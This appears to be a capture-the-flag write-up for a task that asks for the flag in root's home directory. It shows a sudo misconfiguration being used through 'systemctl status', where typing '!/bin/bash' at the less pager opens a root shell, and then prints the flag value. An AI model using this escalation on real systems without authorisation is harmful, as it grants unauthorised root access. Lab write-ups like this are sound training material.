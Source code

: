 -----------

## Task 12

Submit the flag located in the root user's home directory.
## Solution 12

The vulnerability together with the miisconfiguration in `/etc/sudoers` allows for local privilege escalation, since `systemd` doesn't set `LESSECURE` to 1 so the programs may be launched from the `Less` pager.

Run this command:

```sh
sudo /usr/bin/systemctl status trail.service

WARNING: terminal is not fully functional
-  (press RETURN)
```

Here instead of return, write `!/bin/bash`, which gives root access.

This because we instruct the pager to suspend the current operation and execute the command, opening a shell with the same privileges as the pager itself.

The navigate to:

```sh
cd /root/
```

List the files:

```sh
ls
go  root.txt
```

```sh
cat root.txt
46198c8cc2dd77b28a5844d2c5c9298d
```